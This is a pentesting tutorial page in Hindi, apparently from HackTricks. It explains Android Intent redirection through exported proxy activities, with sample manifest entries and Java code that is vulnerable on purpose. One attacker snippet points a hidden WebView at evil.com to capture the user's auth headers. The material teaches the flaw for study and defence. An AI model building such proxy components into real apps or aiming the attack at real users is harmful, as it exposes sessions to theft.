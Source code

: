 <details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>


**यहां से लिया गया अनुसंधान** [**https://blog.oversecured.com/Android-Access-to-app-protected-components/**](https://blog.oversecured.com/Android-Access-to-app-protected-components/)

# परिचय

यह सुरक्षा के वेब में **ओपन रीडायरेक्ट** की तरह होती है। क्योंकि `Intent` कक्षा `Parcelable` होती है, इस कक्षा के **ऑब्जेक्ट** को एक अन्य `Intent` ऑब्जेक्ट में **अतिरिक्त डेटा** के रूप में **पास** किया जा सकता है। \
बहुत से डेवलपर्स इस सुविधा का उपयोग करते हैं और **प्रॉक्सी** **कंपोनेंट्स** (गतिविधियाँ, ब्रॉडकास्ट रिसीवर और सेवाएं) बनाते हैं जो **एक एम्बेडेड Intent लेते हैं और इसे खतरनाक विधियों में पास करते हैं** जैसे कि `startActivity(...)`, `sendBroadcast(...)` आदि। \
यह खतरनाक है क्योंकि **एक हमलावर ऐप को ऐसे अन्य ऐप से सीधे लॉन्च नहीं किया जा सकने वाले गैर-निर्यातित कंपोनेंट को लॉन्च करने के लिए मजबूर कर सकता है**, या उसे अपने सामग्री प्रदाताओं तक पहुंच दे सकता है। **`WebView`** भी कभी-कभी **एक स्ट्रिंग से `Intent`** ऑब्जेक्ट में **URL को बदल देता है**, `Intent.parseUri(...)` विधि का उपयोग करके, और इसे `startActivity(...)` को पास करता है।

{% hint style="info" %}
सारांश के रूप में: यदि एक हमलावर एक ऐसा Intent भेज सकता है जो असुरक्षित रूप से निष्पादित हो रहा है, तो उसे संभावित रूप से निर्यातित कंपोनेंटों तक पहुंच मिल सकती है और उनका दुरुपयोग कर सकता है।
{% endhint %}

# एक सामान्य मामला

चलो एक उदाहरण की जांच करते हैं। `AndroidManifest.xml` फ़ाइल का टुकड़ा
```markup
<activity android:name=".ProxyActivity" android:exported="true" />
<activity android:name=".AuthWebViewActivity" android:exported="false" />
```
गतिविधि `ProxyActivity`
```java
startActivity((Intent) getIntent().getParcelableExtra("extra_intent"));
```
गतिविधि `AuthWebViewActivity`
```java
webView.loadUrl(getIntent().getStringExtra("url"), getAuthHeaders());
```
`AuthWebViewActivity` एक उदाहरण है **छिपी हुई ऐप की कार्यान्वयन क्षमता की जो कुछ असुरक्षित कार्रवाई करती है**, इस मामले में उपयोगकर्ता की प्रमाणीकरण सत्र को `url` पैरामीटर से प्राप्त किए गए URL पर पास करना।

निर्यात प्रतिबंध के कारण **हमलावर `AuthWebViewActivity` तक सीधे पहुंच नहीं पा सकता**। एक सीधी कॉल
```java
Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
intent.putExtra("url", "http://evil.com/");
startActivity(intent);
```
एक `java.lang.SecurityException` फेंकता है, `Permission Denial` के कारण: `AuthWebViewActivity` uid 1337 से निर्यात नहीं किया गया।
